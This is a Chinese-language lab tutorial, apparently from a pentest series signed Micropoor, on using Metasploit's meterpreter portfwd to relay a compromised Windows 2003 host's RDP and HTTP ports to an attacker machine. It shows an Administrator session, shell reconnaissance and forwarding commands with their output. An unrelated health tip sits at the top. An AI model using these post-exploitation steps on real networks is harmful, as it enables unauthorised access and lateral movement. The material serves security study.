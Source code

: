 **注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

portfwd是一款强大的端口转发工具，支持TCP，UDP，支持IPV4--IPV6的转换转发。并且内置于meterpreter。其中exe单版本源码如下：

https://github.com/rssnsj/portfwd

**攻击机：**   
192.168.1.5 Debian

**靶机：**   
192.168.1.4 Windows 7  
192.168.1.119 Windows 2003

```bash
msf exploit(multi/handler) \> sessions ‐l 

Active sessions
===============

Id Name Type Information Connection
‐‐ ‐‐‐‐ ‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐
1 meterpreter x86/windows WIN03X64\Administrator @ WIN03X64 192.168.1.5:45303 ‐> 192.168.1.119:53 (192.168.1.119)

msf exploit(multi/handler) > sessions ‐i 1 ‐c 'ipconfig'
[*] Running 'ipconfig' on meterpreter session 1 (192.168.1.119) 

Windows IP Configuration 

Ethernet adapter 本地连接:

Connection‐specific DNS Suffix . :

IP Address. . . . . . . . . . . . : 192.168.1.119
Subnet Mask . . . . . . . . . . . : 255.255.255.0
Default Gateway . . . . . . . . . : 192.168.1.1 22
```

![](/img/95a0281ab0b49f1d079443a830c7244b.jpg)

靶机IP为：  
192.168.1.119---windows 2003---x64

需要转发端口为：80，3389
```bash
msf exploit(multi/handler) > sessions ‐i 1
[*] Starting interaction with 1... 

meterpreter > shell
Process 4012 created.
Channel 56 created.
Microsoft Windows [版本 5.2.3790]
(C) 版权所有 1985‐2003 Microsoft Corp.

C:\Documents and Settings\Administrator\桌面>if defined PSModulePath (echo ok!) else (echo sorry!)
if defined PSModulePath (echo ok!) else (echo sorry!)
sorry! 

C:\Documents and Settings\Administrator\桌面>net config Workstation
net config Workstation
计算机名 \\WIN03X64
计算机全名 win03x64
用户名 Administrator

工作站正运行于
NetbiosSmb (000000000000)
NetBT_Tcpip_{37C12280‐A19D‐4D1A‐9365‐6CBF2CAE5B07} (000C2985D67D) 

软件版本 Microsoft Windows Server 2003

工作站域 WORKGROUP
登录域 WIN03X64

COM 打开超时 (秒) 0
COM 发送计数 (字节) 16
COM 发送超时 (毫秒) 250
命令成功完成。

C:\Documents and Settings\Administrator\桌面>netstat ‐an|findstr "LIST ENING"
netstat ‐an|findstr "LISTENING"
TCP 0.0.0.0:80 0.0.0.0:0 LISTENING
TCP 0.0.0.0:135 0.0.0.0:0 LISTENING
TCP 0.0.0.0:445 0.0.0.0:0 LISTENING
TCP 0.0.0.0:1025 0.0.0.0:0 LISTENING
TCP 0.0.0.0:1026 0.0.0.0:0 LISTENING
TCP 0.0.0.0:3078 0.0.0.0:0 LISTENING
TCP 0.0.0.0:3389 0.0.0.0:0 LISTENING
TCP 0.0.0.0:9001 0.0.0.0:0 LISTENING
TCP 127.0.0.1:2995 0.0.0.0:0 LISTENING
TCP 127.0.0.1:9000 0.0.0.0:0 LISTENING
TCP 127.0.0.1:9999 0.0.0.0:0 LISTENING
TCP 192.168.1.119:139 0.0.0.0:0 LISTENING 
```
![](/img/f02edb927e950780d1f3db9a63051704.jpg)

```bash
meterpreter > portfwd ‐h
Usage: portfwd [‐h] [add | delete | list | flush] [args] 

OPTIONS:
‐L <opt> Forward: local host to listen on (optional). Reverse: local host to connect to.
‐R Indicates a reverse port forward.
‐h Help banner.
‐i <opt> Index of the port forward entry to interact with (see the "list" command).
‐l <opt> Forward: local port to listen on. Reverse: local port to connect to.
‐p <opt> Forward: remote port to connect to. Reverse: remote port to listen on.
‐r <opt> Forward: remote host to connect to. 
```
![](/img/97a637b2eabb1ba9e3461876e52d52bd.jpg)


**攻击机执行：**
```bash
meterpreter > portfwd add ‐l 33389 ‐r 192.168.1.119 ‐p 3389
[*] Local TCP relay created: :33389 <‐> 192.168.1.119:3389
meterpreter > portfwd add ‐l 30080 ‐r 192.168.1.119 ‐p 80
[*] Local TCP relay created: :30080 <‐> 192.168.1.119:80
meterpreter > portfwd 

Active Port Forwards
==================== 
Index Local Remote Direction
‐‐‐‐‐ ‐‐‐‐‐ ‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐
1 0.0.0.0:33389 192.168.1.119:3389 Forward
2 0.0.0.0:30080 192.168.1.119:80 Forward 

2 total active port forwards.
```
![](/img/c401d37dd5c3a91f5849712ac32fec62.jpg)

![](/img/efa3f888364f0a9c68d08681ff071d1a.jpg)

查看攻击机LISTEN端口：转发已成功
```bash
root@John:~# netstat ‐ntlp |grep :3
tcp 0 0 0.0.0.0:33389 0.0.0.0:* LISTEN 2319/ruby
tcp 0 0 0.0.0.0:30080 0.0.0.0:* LISTEN 2319/ruby 4
```
![](/img/6a0efefd3fd932404661acb1a3048550.jpg)

Windows 7 分别访问攻击机33389，30080，既等价访问靶机3389，80  

![](/img/4f26effa8487978945eea66754b9e575.jpg)

![](/img/c007b1fcde98338dd491f671a19888b6.jpg)


>   Micropoor
